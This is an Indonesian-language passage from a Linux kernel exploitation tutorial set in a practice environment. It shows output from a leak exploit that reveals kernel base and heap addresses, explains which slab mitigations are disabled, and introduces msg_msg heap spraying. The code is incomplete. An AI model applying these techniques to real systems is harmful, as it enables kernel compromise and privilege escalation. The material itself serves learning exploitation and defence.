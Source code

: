 ```c


```

ini hasilnya:

```bash

/ # ./exp_shm
0x0000: 0x0000000000000000
0x0008: 0xffffffff82292ae0
0x0010: 0xffff888006304200
0x0018: 0xffffffff81e15540
0x0020: 0x0000000000000000
[+] kbase = 0xffffffff81000000
[+] kheap = 0xffff888006304200
/ # 

```

ingat, karena ini lingkungan latihan, sebagian besar mitigasi untuk kebocoran memory dinonaktifkan seperti ```CONFIG_SLAB_FREELIST_RANDOMIZATION```, ```CONFIG_SLAB_FREELIST_HARDENED```, ```CONFIG_RANDOM_KMALLOC_KACHE```, ```CONFIG_SHUFFLE_PAGE_ALLOCATOR``` dan lainnya, jadi hanya untuk memberikan gambaran saja. dalam sistem nyata, kita harus menyemprotkan banyak objek korban dalam slab partial, karena tidak ada jaminan object cache yang rentan dan korban akan bersebelahan ketika kita melakukan heap spray.

Selanjutnya, ayo kita coba cara lain, seperti menggunakan object ```msg_msgseg``` dari struct ```msg_msg``` untuk membocorkan object ```init_pc_ns``` yang dikirim oleh ```shm_file_data``` dari kerentanan ini.

Kernel menawarkan dua syscall untuk melakukan Komunikasi Antar Proses menggunakan pesan, ```msgsnd()``` dan ```msgrcv()``` , masing-masing digunakan untuk mengirim pesan ke, dan menerima pesan dari antrean pesan.

Pesan dalam ruang kernel terdiri dari dua bagian, header pesan, yang dijelaskan oleh struktur msg_msg dan data pesan, yang mengikutinya. Berikut ini strukturnya msg_msg:

```c
struct list_head {
	struct list_head *next, *prev;
};

struct msg_msg {
    struct list_head m_list;
    long m_type;
    size_t m_ts;      /* ukuran text */
    struct msg_msgseg *next; //untuk segment pesan berikutnya
    void *security;

};

struct msg_msgseg {
	struct msg_msgseg *next;
	/* untuk segment pesan berikutnya*/
};

```
```m_list.next``` untuk menunjuk pesan lain dalam antrian, sementara ```msg_msg *next``` menunjukk ke segment pesan berikutnya, objek elastis ini banyak digunakan oleh pengembang kernel exploit untuk melakukan heap spray. Ukuran pesan dapat dikontrol oleh pengguna, oleh karena itu dapat dialokasikan dalam beberapa cache, mulai dari kmalloc-64 hingga kmalloc-4k.

sekarang, yo kita coba praktekan dengan mengubah kode kita yang sebelumnya.

```c
//kita buat antrian pesan terlebih dahulu
...
 int msqid;
    if((msqid = msgget(IPC_PRIVATE,0666|IPC_CREAT))==-1){
```